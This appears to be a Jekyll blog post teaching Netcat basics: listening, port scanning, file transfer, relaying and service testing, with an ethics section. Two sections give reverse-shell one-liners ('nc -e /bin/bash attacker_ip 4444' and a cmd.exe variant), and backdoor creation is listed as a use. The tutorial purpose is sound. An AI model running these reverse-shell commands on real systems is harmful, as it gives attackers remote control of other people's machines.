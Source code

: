 ```yaml
---
layout: post
title: Mastering Netcat for Networking and Cybersecurity
date: 2023-12-22 15:01:35 +0300
image: '/images/422.png'
tags: [Cybersecurity, Networking, Tools]
---
```


The **Netcat** (nc) command is often referred to as the Swiss Army knife of networking. It is a versatile tool for reading, writing, and analyzing data across network connections using TCP or UDP. Netcat is invaluable for penetration testers, network administrators, and cybersecurity professionals. This blog post explores Netcat’s features, its applications in networking and security, and common use cases. Be sure to follow the included **lab walkthrough** for hands-on practice.

---

## What is Netcat?

Netcat is a command-line utility that facilitates the creation and analysis of network connections. It supports various protocols and can be used for a wide range of tasks, from file transfers to port scanning.

Key capabilities of Netcat include:
- Creating client-server connections for data transfer.  
- Performing port scans to identify open services.  
- Acting as a network debugging and exploration tool.  

Netcat’s simplicity and power make it a must-have tool in any cybersecurity toolkit.

---

## Why Use Netcat in Cybersecurity?

Netcat’s versatility and ease of use make it ideal for cybersecurity and network diagnostics. Here’s why it’s a critical tool:

1. **Establishing Network Connections**  
   Quickly create TCP/UDP connections to test services or troubleshoot issues.

2. **Port Scanning**  
   Identify open ports and services running on a target system.

3. **File Transfers**  
   Easily send and receive files between systems over a network.

4. **Backdoor Creation**  
   Set up backdoors for testing post-exploitation scenarios (authorized use only).

5. **Data Debugging**  
   Analyze raw data sent over network connections.

---

## Key Features of Netcat

### 1. **Creating Network Connections**
Establish TCP or UDP connections to send or receive data.

**Command Example:**
```bash
nc -l -p 1234
```

### 2. **Port Scanning**
Scan for open ports on a target host to identify running services.

**Command Example:**
```bash
nc -zv example.com 1-1000
```

### 3. **File Transfers**
Transfer files between systems using Netcat.

**Command Example:**
```bash
# On the receiver
nc -l -p 1234 > received_file.txt

# On the sender
cat file.txt | nc target_ip 1234
```

### 4. **Creating Reverse Shells**
Test reverse shell connections for penetration testing purposes.

**Command Example:**
```bash
nc -e /bin/bash attacker_ip 4444
```

### 5. **Debugging and Analysis**
Send and receive raw data to debug network issues.

**Command Example:**
```bash
echo "Test Data" | nc target_ip 1234
```

---

## Common Use Cases for Netcat

### 1. **Port Scanning**
Identify open ports and services for network reconnaissance.

**Command Example:**
```bash
nc -zv example.com 80 443
```

### 2. **File Transfers**
Send and receive files over TCP connections.

### 3. **Reverse Shell Setup**
Establish reverse shells for authorized penetration testing.

**Command Example:**
```bash
nc -e cmd.exe attacker_ip 4444
```

### 4. **Testing Services**
Manually connect to services to troubleshoot connectivity.

**Command Example:**
```bash
nc example.com 80
GET / HTTP/1.1
```

### 5. **Relay and Proxy Connections**
Use Netcat to forward data between two endpoints for testing.

**Command Example:**
```bash
nc -l -p 1234 | nc target_ip 5678
```

---

## Ethical Considerations

Netcat is a powerful tool that must be used responsibly and ethically. Always:
- Obtain explicit permission before testing networks.
- Avoid unauthorized use that could disrupt services or breach legal regulations.
- Follow industry standards, such as the **OWASP Testing Guide** or **NIST SP 800-115**.

---

## A Deeper Dive: Hands-On Lab

This blog post is accompanied by a hands-on lab walkthrough that demonstrates:
- Using Netcat for port scanning and service testing.
- Creating client-server connections for file transfers.
- Setting up reverse shells for post-exploitation testing.

The lab provides practical exercises to help you master Netcat and its applications in cybersecurity. Don’t miss this opportunity to refine your skills.

---

> "The greatest glory in living lies not in never falling, but in rising every time we fall."  
> <cite>Nelson Mandela</cite>

---

## Conclusion

Netcat is a versatile and powerful tool for networking and cybersecurity tasks. Its ability to create connections, analyze data, and test network services makes it indispensable for professionals in the field.

The accompanying hands-on lab walkthrough provides a practical introduction to Netcat’s capabilities, allowing you to explore its applications in real-world scenarios. By mastering Netcat, you can enhance your network diagnostics and security testing skills. Dive into the lab and elevate your expertise today.
